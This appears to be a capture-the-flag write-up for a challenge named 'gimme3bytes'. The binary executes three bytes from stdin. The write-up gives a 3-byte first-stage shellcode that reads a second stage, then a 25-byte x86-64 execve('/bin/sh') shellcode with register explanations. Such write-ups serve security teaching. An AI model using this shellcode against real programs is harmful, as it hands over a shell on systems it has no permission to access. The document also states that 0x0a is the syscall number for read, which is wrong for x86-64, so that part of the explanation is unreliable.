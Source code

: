 # gimme3bytes

It reads 3 bytes from stdin and executes them as shellcode.

The idea is to run a multi-stage shellcode, where the first stage is a small shellcode that call the syscall `read` to read the second stage from stdin. The second stage is the actual shellcode that will be executed.

## First Stage (3 bytes)

```asm
pop rdx
syscall
```

- RAX: already set to 0x0a (syscall number for `read`)
- RDI: already set to 0x0 (stdin)
- RSI: already set to the buffer address
- RDX: set using `pop rdx`. Why so? Because at that point the stack contains a large number that can be used as a buffer size

## Second Stage (25 bytes)

Main idea: `execve(RDI -> "/bin/sh", RSI = argv -> NULL, RDX = envp -> NULL)`

```asm
nop
nop
nop
mov rdi, rsi
add rdi, 0x19
mov rax, 0x3b
xor rsi, rsi
xor rdx, rdx
syscall
.string "/bin/sh"
```

Note: The first three `nop`s are there since the RIP after the first stage is set at the end of the buffer and cannot be changed. With the three `nop`s we push the second stage three bytes forward right where the RIP will be set and then `mov rdi, rsi` will be the first instruction executed.

- RDI: set to the buffer address + 25, to point to the string "/bin/sh"
- RAX: set to 0x3b (syscall number for `execve`)
- RSI: set to 0x0 (NULL)
- RDX: set to 0x0 (NULL)
